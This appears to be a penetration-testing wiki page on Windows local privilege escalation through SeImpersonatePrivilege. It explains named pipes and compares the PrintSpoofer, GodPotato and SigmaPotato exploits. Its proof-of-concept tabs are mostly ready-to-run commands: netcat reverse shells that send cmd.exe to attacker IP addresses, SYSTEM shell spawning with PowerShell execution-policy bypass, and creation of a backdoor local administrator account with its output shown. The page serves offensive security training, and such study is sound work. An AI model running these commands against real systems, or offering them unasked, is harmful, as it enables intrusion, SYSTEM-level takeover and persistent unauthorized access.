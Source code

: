 # SeImpersonatePrivilege

The `SeImpersonatePrivilege` allows a user to operate under another user's security context, typically by impersonating clients via mechanisms like **named pipes** or **RPC**. This privilege is normally assigned to Administrator accounts and built-in service accounts like `LOCAL SERVICE`, `NETWORK SERVICE`, and `SERVICE`. While rare for standard users, `SeImpersonatePrivilege` is often accessible when gaining code execution through services like **IIS**, which commonly run under accounts that have it.

{% hint style="info" %}
**Named pipes** are a method of **inter-process communication (IPC)** in Windows. They let two separate processes—either on the same system or across a network—**send and receive data** as if they were reading/writing to a file. Think of a named pipe as a **virtual file** that one process (the server) creates and waits on, while another (the client) connects to it using a known name (like `\\.\pipe\mypipe`). Once connected, both processes can exchange data in real time.
{% endhint %}

In the context of **privilege escalation**, named pipes can be abused when a **privileged process connects** to a pipe controlled by a lower-privileged attacker. If the attacker has `SeImpersonatePrivilege`, they can **impersonate the connecting user**, effectively hijacking their permissions.

<table><thead><tr><th width="131.66668701171875">Exploit</th><th>Target Mechanism</th><th>Typical Use Case</th><th>OS Compatibility</th></tr></thead><tbody><tr><td><strong>PrintSpoofer</strong></td><td>RPC/Named Pipes (Print API)</td><td>Fast, reliable on many Windows 10/Server versions</td><td>Windows 10/2016–2019 (some patched)</td></tr><tr><td><strong>GodPotato</strong></td><td>COM Server Hijack</td><td>When PrintSpoofer is patched</td><td>Works on newer/modern Windows (10/11)</td></tr><tr><td><strong>SigmaPotato</strong></td><td>Event Log Service</td><td>When PrintSpoofer and GodPotato fail</td><td>Windows 10+ (better support on newer builds)</td></tr></tbody></table>

## PoCs

{% tabs %}
{% tab title="PrintSpofer" %}
[**PrintSpoofer**](https://github.com/itm4n/PrintSpoofer) is a local privilege escalation exploit that abuses the `SeImpersonatePrivilege` to impersonate the `SYSTEM` account via a named pipe trick. It can be leveraged to sent a reverse shell or execute commands directly:

```powershell
# Reverse shell
PrintSpoofer.exe -c "nc.exe 10.10.13.37 1337 -e cmd"

# Command execution
PrintSpoofer.exe -i -c cmd
```

It can also be used to spawn a `SYSTEM` shell on the desktop, for instance, when logged in via an RDP session:

```powershell
# Check your session ID
C:\TOOLS>qwinsta
 SESSIONNAME       USERNAME                 ID  STATE   TYPE        DEVICE
>rdp-tcp           lab-user                  3  Active
 
# Spawn a new shell
C:\TOOLS>PrintSpoofer.exe -d 3 -c "powershell -ep bypass"
```
{% endtab %}

{% tab title="GodPotato" %}
[**GodPotato**](https://github.com/BeichenDream/GodPotato) is a local privilege escalation exploit that abuses `COM` and `SeImpersonatePrivilege` to impersonate `SYSTEM` by hijacking privileged tokens via named pipes.

```powershell
# Reverse shell
GodPotato -cmd "nc -t -e C:\Windows\System32\cmd.exe 192.168.1.102 2012"

# Command execution
GodPotato -cmd "cmd /c whoami"
```
{% endtab %}

{% tab title="SigmaPotato" %}
[**SigmaPotato**](https://github.com/tylerdotrar/SigmaPotato) is a local privilege escalation exploit that leverages the `SeImpersonatePrivilege` and the Event Log service to hijack a `SYSTEM` token through named pipe impersonation.

```powershell
# Reverse shell
./SigmaPotato.exe --revshell <ip_addr> <port>

# Command execution
./SigmaPotato.exe <command>
```

It can be also used to create a new local administrator:

```powershell
> .\sigmapotato.exe "net user dave4 Pass123! /add"
[+] Process Output:
The command completed successfully.


> .\sigmapotato.exe "net localgroup Administrators dave4 /add"
[+] Process Output:
The command completed successfully.

> Get-LocalGroupMember administrators
User        CLIENTWK220\dave4         Local
```
{% endtab %}
{% endtabs %}

